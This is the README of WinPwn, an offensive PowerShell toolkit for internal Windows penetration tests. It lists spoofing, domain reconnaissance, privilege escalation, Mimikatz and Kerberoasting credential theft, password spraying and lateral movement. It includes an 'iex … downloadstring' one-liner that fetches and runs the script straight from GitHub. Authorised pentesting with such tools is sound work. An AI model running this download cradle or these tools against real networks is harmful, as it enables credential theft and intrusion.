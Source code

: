 # WinPwn
Still much work to do - Automation for internal Windows Penetrationtest. 

	1) Automatic Proxy Detection
	2) Elevated or unelevated Detection
  	3) Forensic Mode oder Pentest Mode 
		a. Forensik -> Loki + PSRECON + Todo: Threathunting functions
		b. Pentest -> Internal Windows Domain System 
			i. Inveigh NBNS/SMB/HTTPS Spoofing
			ii. Local Reconing -> Hostenum, SessionGopher, FileSearch, PSRecon
			iii. Domain Reconing -> GetExploitableSystems, Powerview functions, ACL-Analysis, ADRecon
				1) Todo: Grouper for Group Policy overview
			iv. Privilege Escalation -> Powersploit (Allchecks), GPP-Passwords,  MS-Exploit Search (Sherlock), WCMDump, JAWS
			v. Lazagne Password recovery
			vi. Exploitation -> Kerberoasting, Mimikittenz, Mimikatz with Admin-rights
			vii. LateralMovement ->  FindLocalAdminAccess 
				1) Invoke-MassMimikatz || Powershell Empire Remote Launcher Execution over WMI
				2) DomainPasswordspray
				
			viii. Share Enumeration
			ix. FindGPOLocation --> Search for user/group rights 
			x. Find-Fruit

Just Import the Modules with "Import-Module .\WinPwn_v0.4.ps1" or with 
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.4.ps1')

And Start the Script with "WinPwn".

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Windows%20PowerShell.png)

disclaimer:

I'm not responsible for anything you do with this program, so please only use it for good and educational purposes.
